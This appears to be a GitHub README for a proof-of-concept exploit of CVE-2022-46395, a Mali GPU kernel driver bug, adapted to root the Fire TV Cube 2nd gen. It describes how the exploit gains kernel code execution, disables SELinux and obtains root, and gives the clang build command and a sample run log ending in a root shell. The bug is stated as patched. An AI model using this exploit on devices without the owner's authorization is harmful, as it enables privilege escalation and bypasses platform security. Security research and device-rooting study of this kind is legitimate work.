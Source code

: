 ## Exploit for CVE-2022-46395 to run on FireTV 2nd gen Cube

This is a fork of security researcher Man Yue Mo's <a href="https://github.com/github/securitylab/tree/main/SecurityExploits/Android/Mali/CVE_2022_46395">Pixel 6 POC</a> for CVE-2022-46395.  Read his detailed write-up of the vulnerability <a href="https://github.blog/2023-05-25-rooting-with-root-cause-finding-a-variant-of-a-project-zero-bug/">here</a>.  Changes have been made to account for FireOS's 32-bit user space. The POC exploits a bug in the ARM Mali kernel driver to gain arbitrary kernel code execution, which is then used to disable SELinux and gain root.  

The exploit was patched in PS7652/3564 (late August 2023). For reference, the following command was used to compile with clang in ndk-21:
```
android-ndk-r21d/toolchains/llvm/prebuilt/linux-x86_64/bin/armv7a-linux-androideabi28-clang -DSHELL mali_user_buf.c mempool_utils.c mem_write.c -o raven_buf
```
For fastest results, run following a fresh reboot.  On average the POC takes 2-5min to gain root.
```
raven:/ $ /data/local/tmp/raven_buf
Amazon/raven/raven:9/PS7646.3565N/0028085972224:user/amz-p,release-keys
benchmark_time 138
failed after 100
finished reset: 342278966 fault: 338143633 195 err 0 read 3
failed to find pgd, retry
finished reset: 731402639 fault: 724605931 208 err 0 read 3
failed to find pgd, retry
finished reset: 67309348 fault: 66434848 210 err 0 read 3
failed to find pgd, retry
failed after 200
failed after 300
benchmark_time 135
failed after 400
failed after 500
failed after 600
benchmark_time 131
failed after 700
finish reset: 797174916 fault: 788811083 352 err 0 read 3
found pgd at page 6
overwrite addr : 104100634 634
overwrite addr : 104300634 634
overwrite addr : 1041001d0 1d0
overwrite addr : 1043001d0 1d0
result 50
raven:/ #
```
